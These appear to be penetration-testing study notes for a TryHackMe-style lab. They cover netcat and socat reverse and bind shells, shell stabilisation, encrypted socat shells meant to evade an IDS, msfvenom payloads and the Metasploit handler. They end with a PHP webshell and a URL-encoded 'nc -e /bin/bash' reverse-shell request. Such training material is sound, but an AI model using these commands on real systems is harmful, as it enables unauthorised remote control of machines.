

# Tools
## Netcat
### Reverse Shells
The syntax for starting a netcat listener using Linux is this:

`nc -lvnp <port-number>`

`-l` is used to tell netcat that this will be a listener  
`-v` is used to request a verbose output  
`-n` tells netcat not to resolve host names or use DNS. Explaining this is outwith the scope of the room.  
`-p` indicates that the port specification will follow.  

Be aware that if you choose to use a port below 1024, you will need to use `sudo` when starting your listener. That said, it's often a good idea to use a well-known port number (80, 443 or 53 being good choices) as this is more likely to get past outbound firewall rules on the target.

### Bind Shells
If we are looking to obtain a bind shell on a target then we can assume that there is already a listener waiting for us on a chosen port of the target: all we need to do is connect to it. The syntax for this is relatively straight forward:

`nc <target-ip> <chosen-port>`

### Shell stabilization
These shells are very unstable by default. Pressing Ctrl + C kills the whole thing. They are non-interactive, and often have strange formatting errors. This is due to netcat "shells" really being processes running inside a terminal, rather than being bonafide terminals in their own right. 

Fortunately, there are many ways to stabilise netcat shells on Linux systems. We'll be looking at three here. Stabilisation of Windows reverse shells tends to be significantly harder; however, the second technique that we'll be covering here is particularly useful for it.

#### Technique 1: Python
The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default. This is a three stage process:

1. The first thing to do is use `python -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace python with python2 or python3 as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
2. Step two is: `export TERM=xterm` -- this will give us access to term commands such as `clear`.
3. Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

#### Technique 2: rlwrap
rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.

To use rlwrap, we invoke a slightly different listener:  
`rlwrap nc -lvnp <port>`

Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

#### Technique 3: Socat
The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell.

To accomplish this method of stabilisation we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`).

### Change terminal size
First, open another terminal and run `stty -a`. This will give you a large stream of output. Note down the values for "rows" and columns:

Then use this command with the output.  
`stty rows <number> columns <number>`

This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.

## Socat
Socat is similar to netcat in some ways, but fundamentally different in many others. The easiest way to think about socat is as a connector between two points. This will essentially be a listening port and the keyboard, however, it could also be a listening port and a file, or indeed, two listening ports. All socat does is provide a link between two points.

> One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.

### Reverse Shells
As mentioned previously, the syntax for socat gets a lot harder than that of netcat. Here's the syntax for a basic reverse shell listener in socat:

`socat TCP-L:<port> -`

As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to `nc -lvnp <port>`.

On Windows we would use this command to connect back:

`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target:

`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

### Bind Shells
On a Linux target we would use the following command:

`socat TCP-L:<PORT> EXEC:"bash -li"`

On a Windows target we would use this command for our listener:

`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

`socat TCP:<TARGET-IP>:<TARGET-PORT> -`

### Shell stabilization
Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell. This will only work when the target is Linux, but is significantly more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax:

`socat TCP-L:<port> FILE:`tty`,raw,echo=0`

Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a precompiled socat binary, which can then be executed as normal.

The special command is as follows:

`socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  `EXEC:"bash -li"`. We're also passing the arguments: pty, stderr, sigint, setsid and sane:

* **pty**, allocates a pseudoterminal on the target -- part of the stabilisation process
* **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
* **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
* **setsid**, creates the process in a new session
* **sane**, stabilises the terminal, attempting to "normalise" it.

As normal, on the left we have a listener running on our local attacking machine, on the right we have a simulation of a compromised target, running with a non-interactive shell. Using the non-interactive netcat shell, we execute the special socat command, and receive a fully interactive bash shell on the socat listener to the left:

Note that the socat shell is fully interactive, allowing us to use interactive commands such as SSH. This can then be further improved by setting the stty values as seen in the previous task, which will let us use text editors such as Vim or Nano.

If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding `-d -d` into the command. This is very useful for experimental purposes, but is not usually necessary for general use.

### Socat Encrypted Shells
We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`

This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.
We then need to merge the two created files into a single .pem file:

`cat shell.key shell.crt > shell.pem`

Now, when we set up our reverse shell listener, we use:  
`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`

This sets up an OPENSSL listener using our generated certificate. verify=0 tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate must be used on whichever device is listening.

To connect back, we would use:  
`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

The same technique would apply for a bind shell:

Target:  
`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`

Attacker:  
`socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

## msfvenom
Msfvenom: the one-stop-shop for all things payload related.

Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit; however, it can also be used to generate payloads in various formats (e.g. `.exe`, `.aspx`, `.war`, `.py`).

The standard syntax for msfvenom is as follows:

`msfvenom -p <PAYLOAD> <OPTIONS>`

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:

`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

Here we are using a payload and four options:
* `-f <format>`
  * Specifies the output format. In this case that is an executable (exe)
* `-o <file>`
  * The output location and filename for the generated payload.
* `LHOST=<IP>`
  * Specifies the IP to connect back to. When using TryHackMe, this will be your tun0 IP address. If you cannot load the link then you are not connected to the VPN.
* `LPORT=<port>`
  * The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.

### Staged vs Stageless
Before we go any further, there are another two concepts which must be introduced: staged reverse shell payloads and stageless reverse shell payloads.

**Staged** payloads are sent in two parts. The first part is called the stager. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit multi/handler, which will be covered in the next task.

**Stageless** payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.

### Meterpreter
On the subject of Metasploit, another important thing to discuss is a Meterpreter shell. Meterpreter shells are Metasploit's own brand of fully-featured shell. They are completely stable, making them a very good thing when working with Windows targets. They also have a lot of inbuilt functionality of their own, such as file uploads and downloads. If we want to use any of Metasploit's post-exploitation tools then we need to use a meterpreter shell, however, that is a topic for another time. The downside to meterpreter shells is that they must be caught in Metasploit. They are also banned from certain certification examinations, so it's a good idea to learn alternative methodologies.

### Payload Naming Conventions
When working with msfvenom, it's important to understand how the naming system works. The basic convention is as follows:  
`<OS>/<arch>/<payload>`

For example:  
`linux/x86/shell_reverse_tcp`

This would generate a stageless reverse shell for an x86 Linux target.

The exception to this convention is Windows 32bit targets. For these, the arch is not specified. e.g.:  
`windows/shell_reverse_tcp`

For a 64bit Windows target, the arch would be specified as normal (x64).

Let's break the payload section down a little further.

In the above examples the payload used was` shell_reverse_tcp`. This indicates that it was a stageless payload. How? Stageless payloads are denoted with underscores (`_`). The staged equivalent to this payload would be:
shell/reverse_tcp

As staged payloads are denoted with another forward slash (`/`).

This rule also applies to Meterpreter payloads. A Windows 64bit staged Meterpreter payload would look like this:  
`windows/x64/meterpreter/reverse_tcp`

A Linux 32bit stageless Meterpreter payload would look like this:  
`linux/x86/meterpreter_reverse_tcp`

## Metasploit - multi/handler
Multi/Handler is a superb tool for catching reverse shells. It's essential if you want to use Meterpreter shells, and is the go-to when using staged payloads.

Fortunately, it's relatively easy to use:
1. Open Metasploit with msfconsole
2. Type use multi/handler, and press enter

There are three options we need to set: payload, LHOST and LPORT. These are all identical to the options we set when generating  shellcode with Msfvenom -- a payload specific to our target, as well as a listening address and port with which we can receive a shell. Note that the LHOST must be specified here, as metasploit will not listen on all network interfaces like netcat or socat will;

We set these options with the following commands:
* set PAYLOAD <payload>
* set LHOST <listen-address>
* set LPORT <listen-port>

We should now be ready to start the listener!

Let's do this by using the `exploit -j` command.

## Web Shells
There are times when we encounter websites that allow us an opportunity to upload, in some way or another, an executable file. Ideally we would use this opportunity to upload code that would activate a reverse or bind shell, but sometimes this is not possible. In these cases we would instead upload a webshell. 

"Webshell" is a colloquial term for a script that runs inside a webserver (usually in a language such as PHP or ASP) which executes code on the server. Essentially, commands are entered into a webpage -- either through a HTML form, or directly as arguments in the URL -- which are then executed by the script, with the results returned and written to the page. This can be extremely useful if there are firewalls in place, or even just as a stepping stone into a fully fledged reverse or bind shell.

As PHP is still the most common server side scripting language, let's have a look at some simple code for this.

In a very basic one line format:  
`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`

This will take a GET parameter in the URL and execute it on the system with `shell_exec()`. Essentially, what this means is that any commands we enter in the URL after `?cmd=` will be executed on the system -- be it Windows or Linux. The "pre" elements are to ensure that the results are formatted correctly on the page.

### Example
Create a new file with '.php' extension and save the file with below statement  
`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`

Upload the file to the deployed machine.

Run a netcat listener with below command   
`nc -lvnp <port-num>`

To catch the reverse shell we need to run the web shell we uploaded with GET PARAMETERS 

Command we need to use is:  
`nc <ip> <port-num> -e /bin/bash`

We need to run the above command as get paramter for a url.  
`http://ip/uploads/shell.php?cmd=nc%20local-ip%20port%20-e%20%2fbin%2fbash`

By running the above command,We can have a reverse shell.

Note: we need to use `%20` to represent space and / can be represented by using `%2f`
